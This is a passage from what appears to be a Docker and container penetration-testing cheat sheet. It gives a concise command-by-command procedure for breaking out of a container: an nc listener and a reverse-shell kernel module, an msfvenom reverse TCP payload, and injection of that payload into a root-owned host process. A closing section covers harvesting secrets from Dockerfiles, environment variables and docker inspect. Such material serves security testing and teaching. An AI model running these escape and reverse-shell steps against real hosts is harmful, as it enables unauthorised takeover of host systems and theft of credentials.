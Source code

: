 - set up listener `nc -nlvp 8888`
- load reverseshell kernel module - `insmod reverseshell_module.ko`

Kernel module commands
- `lsmod` - list modules
- `insmod` - load module
- `rmmod` - unload modules

#### PoC Reverse Shell Host PID
If the container is running with `--pid=host` it will be possible to view processes on the host, this can be confirmed with the `top` command. If the cap_sys_ptrace capability is available it will be possible to inject code into the address space of any host process:

- Clone the linux injector: 
```
git clone https://github.com/dismantl/linux-injector
```
- Create a payload:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o payload.bin
```

- Copy the payload and injector to the container
- Make payload executable
- Start Listener
- identify process running as root on host
```
ps auxx | grep root
```
- exploit the payload
```
./injector <pid> payload.bin
```
### Searching for Secrets
Secrets management is a challenge within docker and devops in general. There are many recommended ways to store secrets however its still common to find secrets embedded within multiple insecure locations:

- dockerfile
- source code
- environmental variables
- text files
- etc..
  
In this case anyone with access to the container can read these serets.

Additionally, if you are able to access the host, you may be able to find secrets hidden in other containers

-  Docker inspect:
```
docker inspect database -f "{{json .Config.Env}}"
```
- Docker Secrets: https://github.com/JOSHUAJEBARAJ/docker-secrets
- Detect Secrets: https://github.com/ibm/detect-secrets

